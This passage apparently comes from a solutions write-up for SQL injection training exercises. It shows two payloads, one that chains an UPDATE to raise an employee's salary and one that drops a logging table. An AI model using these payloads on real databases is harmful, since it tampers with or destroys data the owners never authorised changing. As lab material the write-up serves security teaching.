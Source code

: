 **12\. Compromising Integrity with Query chaining**  
```sql
'OR '1' = '1'; UPDATE employees SET SALARY = 100000 WHERE LAST_NAME = 'Smith
```

![](res/sqli_12.png)

**13\. Compromising Availability**  
```sql
%'; DROP TABLE access_log;--
```

![](res/sql_13.png)

**SQL Injection (intro), suoritettuna:**  